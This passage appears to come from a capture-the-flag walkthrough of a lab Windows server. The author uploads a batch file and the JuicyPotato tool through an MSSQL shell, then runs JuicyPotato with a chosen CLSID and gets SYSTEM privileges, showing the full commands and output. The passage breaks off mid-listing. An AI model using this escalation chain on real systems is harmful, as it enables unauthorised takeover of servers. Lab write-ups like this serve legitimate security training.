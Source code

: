 
    root@kali# cat dir.bat 
    dir c:\users\administrator\desktop\ > c:\temp\out.txt



I'll use the MSSQL shell to upload it to COMPATIBILITY, along with the
latest [JP
release](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)
(upload not shown):



    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>UPLOAD dir.bat
    100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 7/7 [00:00<00:00, 44.88K/s]
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>dir
     Volume in drive C has no label.
     Volume Serial Number is F661-7669

     Directory of C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp

    02/16/2019  01:08 AM    <DIR>          .
    02/16/2019  01:08 AM    <DIR>          ..
    02/16/2019  01:08 AM                54 dir.bat
    02/16/2019  12:50 AM           347,648 jp.exe
                   3 File(s)        347,710 bytes
                   2 Dir(s)   6,083,448,832 bytes free



I need a CLSID to run with. The JuicyPotato GitHub repo has a list for
each OS type. Since this box is (was) Server 2016, I'll try from [this
list](https://github.com/ohpe/juicy-potato/blob/f88727071151894c8ce6583b1602a8c68380294c/CLSID/Windows_Server_2016_Standard/README.md).
Now I'll run `jp.exe -t * -p [payload] -l 9001 -c [CLSID]`, and it seems
to work:



    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>jp.exe -t * -p C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp\dir.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}
    Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 9001
    ......
    [+] authresult 0
    {5B3E6773-3A99-4A3D-8096-7765DD11785C};NT AUTHORITY\SYSTEM

    [+] CreateProcessWithTokenW OK



There's an `out.txt` file in `c:\temp`, and it shows the flag on the
administrators desktop:



    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>dir \temp
     Volume in drive C has no label.
     Volume Serial Number is F661-7669
